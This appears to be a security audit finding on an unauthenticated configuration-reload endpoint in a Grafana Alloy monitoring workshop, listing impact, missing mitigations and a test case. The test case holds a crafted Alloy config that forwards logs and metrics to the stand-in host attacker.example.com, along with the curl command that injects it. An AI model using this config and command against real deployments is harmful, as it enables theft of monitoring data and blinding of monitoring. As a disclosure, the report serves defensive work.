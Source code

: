 - Vulnerability Name: Unauthenticated Alloy Configuration Reload Endpoint
- Description:
  - The Grafana Alloy UI exposes a `/-/reload` API endpoint that allows users to reload the Alloy configuration.
  - This endpoint is intended for dynamically updating the monitoring configuration without restarting the Alloy process.
  - However, in the default configuration provided in this workshop, this endpoint is unauthenticated.
  - An attacker who can reach the Alloy UI port (default: 12345) can send a POST request to the `/-/reload` endpoint with a modified Alloy configuration.
  - This modified configuration can inject malicious monitoring pipelines, alter existing ones, or disable monitoring entirely.
  - Steps to trigger the vulnerability:
    1. Deploy the monitoring stack using `docker-compose up -d`.
    2. Ensure that the Alloy UI port (12345) is accessible to the attacker (e.g., by port forwarding or if deployed on a public server).
    3. Craft a malicious Alloy configuration file. This file could contain configurations to:
        - Exfiltrate collected monitoring data to an attacker-controlled server.
        - Modify or disable existing monitoring pipelines, leading to gaps in monitoring or incorrect data.
        - Potentially leverage Alloy's capabilities to interact with the underlying system if such capabilities are exposed through Alloy components (though less likely in a typical monitoring setup).
    4. Send a POST request to `http://<alloy-host>:12345/-/reload` with the crafted malicious configuration in the request body. For example, using `curl`:
        ```bash
        curl -X POST -H "Content-Type: application/alloy" --data-binary @malicious_config.alloy http://localhost:12345/-/reload
        ```
        where `malicious_config.alloy` contains the attacker's crafted configuration.
    5. The Alloy instance will reload its configuration with the provided malicious configuration without any authentication or authorization checks.
- Impact:
  - **High**: An attacker can gain full control over the monitoring configuration of Grafana Alloy.
  - This can lead to:
    - **Data Exfiltration**: Sensitive data collected by Alloy (metrics, logs) can be redirected to an attacker-controlled server.
    - **Monitoring Disruption**: Critical monitoring pipelines can be disabled or altered, leading to undetected security breaches or operational issues.
    - **Potential System Compromise**: While less direct, a highly sophisticated attacker might be able to leverage Alloy's components or configuration capabilities (if any exist for system interaction) to gain further access or control over the monitored environment.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
  - None. The provided `docker-compose.yml` and `config.alloy` do not implement any authentication or network restrictions for the Alloy UI or the `/-/reload` endpoint.
- Missing Mitigations:
  - **Authentication and Authorization**: Implement authentication and authorization for the `/-/reload` endpoint to ensure only authorized users can reload the Alloy configuration. Alloy should provide options to configure authentication mechanisms (e.g., basic auth, API keys, OAuth 2.0).
  - **Network Restrictions**: Restrict network access to the Alloy UI port (12345) to only trusted networks or administrators. This can be achieved using firewalls or network policies to limit access from the public internet or untrusted networks.
  - **Input Validation and Sanitization**: While primarily an authentication issue, input validation on the reloaded configuration could provide a defense-in-depth measure to prevent the injection of completely invalid or obviously malicious configurations, although this is not a primary mitigation for unauthorized access.
- Preconditions:
  - The Alloy UI port (12345) is exposed and accessible to the attacker, either directly or through network traversal.
  - The attacker needs to be able to craft a valid (or at least parsable by Alloy) Alloy configuration file to inject.
- Source Code Analysis:
  - The provided project files do not contain the source code of Grafana Alloy itself.
  - Based on the documentation and observed behavior, the vulnerability stems from the default configuration of Alloy and the lack of built-in authentication for the `/-/reload` endpoint.
  - The `docker-compose.yml` file explicitly exposes port `12345` for the `alloy` service:
    ```yaml
    alloy:
     ports:
       - 12345:12345
    ```
  - The `README.md` explicitly documents the `/-/reload` endpoint and how to use `curl` to reload the configuration without mentioning any authentication:
    ```bash
    curl -X POST http://localhost:12345/-/reload
    ```
  - This indicates that by default, the `/-/reload` endpoint is indeed unauthenticated, making it vulnerable to configuration injection if the port is exposed.
- Security Test Case:
  1. **Setup:**
     - Clone the repository: `git clone https://github.com/grafana/docker-monitor-workshop.git`
     - Navigate to the code directory: `cd docker-monitor-workshop/code`
     - Start the monitoring stack: `docker-compose up -d`
  2. **Verification of Alloy UI Access:**
     - Open a web browser and navigate to `http://localhost:12345`. Verify that the Grafana Alloy UI is accessible.
  3. **Craft Malicious Configuration (malicious_config.alloy):**
     - Create a file named `malicious_config.alloy` with the following content (example that attempts to send data to a fake external server - replace `attacker.example.com` with a real attacker server for a real test):
       ```alloy
       local.file_match "demo_logs" {
         path_match = "/tmp/app-logs/*.log"
         forward_to   = [loki.write."default"]
       }

       loki.source.file "logs" {
         format = "raw"
         path_targets = local.file_match.demo_logs.targets
         forward_to = [loki.write."default"]
       }

       loki.write "default" {
         endpoint {
           url = "http://attacker.example.com:3100/loki/api/v1/push" # Attacker controlled Loki instance
         }
         external_labels = {
           job = "injected-config"
         }
       }

       prometheus.exporter.cadvisor "cadvisor" {
         forward_to = [prometheus.remote_write.demo.receiver]
       }

       prometheus.remote_write "demo" {
         endpoint {
           url = "http://attacker.example.com:9090/api/v1/write" # Attacker controlled Prometheus instance
         }
       }

       prometheus.scrape "node" {
         targets = [{
           "__address__" = "localhost:9100" # Example target, may not be relevant in this context
         }]
         forward_to = [prometheus.remote_write.demo.receiver]
       }

       otelcol.exporter.otlphttp "otlp_exporter" {
         client {
           endpoint = "attacker.example.com:4318" # Attacker controlled OTLP endpoint
         }
       }
       ```
  4. **Exploit - Reload Configuration with Malicious Config:**
     - Open a terminal and execute the following `curl` command:
       ```bash
       curl -X POST -H "Content-Type: application/alloy" --data-binary @malicious_config.alloy http://localhost:12345/-/reload
       ```
  5. **Verification of Successful Reload (Optional):**
     - Check the Alloy container logs (`docker logs alloy`) for any errors during reload. Successful reload might not produce explicit success messages in logs, but errors would indicate a failed reload.
  6. **Verify Impact (Data Exfiltration - requires attacker-controlled servers):**
     - On the attacker-controlled server (`attacker.example.com`), check if it receives data on ports 3100 (Loki), 9090 (Prometheus remote write), and 4318 (OTLP).
     - If data is received, it confirms successful configuration injection and potential data exfiltration.
  7. **Cleanup:**
     - Stop the monitoring stack: `docker-compose down`

This security test case demonstrates how an attacker can reload the Alloy configuration without authentication and potentially inject malicious configurations. The success of data exfiltration depends on the attacker setting up listening services on `attacker.example.com` and the network connectivity between the workshop environment and the attacker's server.